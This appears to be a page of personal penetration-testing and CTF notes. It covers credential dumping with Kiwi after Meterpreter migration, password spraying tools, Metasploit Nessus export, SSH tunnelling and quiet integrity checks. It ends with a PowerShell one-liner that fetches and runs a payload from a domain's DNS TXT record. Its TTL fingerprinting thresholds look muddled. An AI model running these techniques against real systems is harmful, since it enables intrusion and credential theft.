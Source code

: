 ```yaml
---
description: Unorganized collections of my notes from CTFs and penetration tests
---
```


# Offensive Security Notes

1\. Search for whitelisted applications when looking to migrate and dump credentials. During a penetration test I was struggling to dump credentials with Kiwi as a PoC. Migrating into an AppSense application that is required to be whitelisted by endpoints can result in easy l00t. [This link](https://knowledge.broadcom.com/external/article/171640/dlp-endpoint-agent-causes-delays-when-fi.html) lists a few of the executables that I was able to migrate into with Meterpreter and proceed to execute Kiwi from, namely EMUser.exe.

2\. Time to Live

```bash
TTL > 64 it is most likely a Linux box
TTL > 128 it is most likely a Windows
TTL < 128 most likely some type of networking device.
```

3\. Some quick notes on organizing tooling:

* Download and place the tool into /opt/ (e.g., Aquatone).&#x20;
* Execute the following command on the Aquatone binary: `ln -s /opt/aquatone/aquatone /usr/local/bin/aquatone`

3\. Reverse shell preferences:

* External: Bind shell
* Internal: Reverse shell

4\. [Microsoft has a great reference](https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies) for .NET Framework & Windows OS Versions. We can then [use a precompiled binary from SharpCollection](https://github.com/Flangvik/SharpCollection) to exploit the system.

* Compile the binaries yourself.. Unless it's a CTF.

5\. Performing password spraying with [SprayCharles](https://github.com/Tw1sm/spraycharles) from my experience is more successful than using the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit). Ran into a situation on an engagement where multiple valid logins were reported as invalid by SprayingToolkit.&#x20;

6\. Kali Linux allows for multiple IP addresses to be set manually on an interface, allowing for you to set multiple callbacks in case one of your IP addresses gets banned. The following demonstrates a screenshot of this:

![](https://i.imgur.com/FYiHJX6.png)

7\. Download a Nessus scan via Metasploit:

```bash
# Load the Nessus plugin
load Nessus

# Authenticate to Nessus
nessus_connect $username:$password@127.0.0.1:8834

# List Available Nessus Scans (Pay attention to the ID)
nesssus_scan_list

# Export the Nessus Scan
Nessus_scan_export $id nessus

Download the Nessus scan to ~/.msf
nessus_report_download $id $fileid

# Report is then accessible in the ~/.msf4/local directory
# Rename the file to $client.nessus
```

8\. Quick SSH tips:

#### Add SOCKS to an Existing SSH Connection

```bash
<enter> ~C
-D 1080
```

#### Forward a Port on an Existing SSH Connection

```bash
<enter> ~C
-L 1337:localhost:1337
```

9\. Make your life significantly easier when analyzing email headers with [Message Header Analyzer](http://mha.azurewebsites.net).

10\. Trying to make a high quality screenshot to illustrate commands used? Check out [carbon.now.sh](https://carbon.now.sh/).&#x20;

10\. Don't know what a command does? There's no shame in that. For Linux check out [ExplainShell](https://explainshell.com/) and for PowerShell use[ ExplainPowershell](https://www.explainpowershell.com/).&#x20;

11\. Check the configuration of LAPS using a machine account per [@HackingLZ](https://twitter.com/hackinglz), as it was noted that configurations are often messed up for them.&#x20;

12\. Your daily reminder that RDP local admin bruteforce has no rate limiting.

13\. If you have a shell on a Windows host and need to check if your process is high integrity without sounding alarms, you can issue the following check:

```bash
# >= high if file listing is shown
CMD -> dir \windows\temp
PowerShell --> ls \windows\temp
```

14\. A fun way to execte payloads is via a domains TXT record, the following command will run the provided payload:

```bash
powershell . (nslookup -q=txt parzival.sh)[-1]
```
